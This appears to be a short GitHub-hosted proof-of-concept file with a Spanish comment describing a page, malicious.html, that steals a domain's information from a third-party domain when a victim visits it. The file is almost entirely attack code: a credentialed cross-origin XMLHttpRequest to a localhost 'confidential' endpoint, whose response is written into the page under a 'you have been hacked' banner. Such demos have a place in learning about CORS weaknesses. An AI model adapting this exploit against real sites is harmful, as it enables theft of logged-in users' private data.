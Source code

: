 //Este script roba la información de un dominio desde un dominio tercero empleando javascript de manera que cuando la víctima ingrese en la página nos presente la información en un archivo que creamos con nombre malicious.html

```js
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('GET', 'http://localhost:5000/confidential', true);
req.withCredentials = true;
req.send();

function reqListener() {
	document.getElementById("stolenInfo").innerHTML = req.responseText;
}

</script>

<br>
<center><h1>Has sido hackeado, esta es la informaci&oacute;n que te he robado:</h1></center>

<p id="stolenInfo"></p>
```
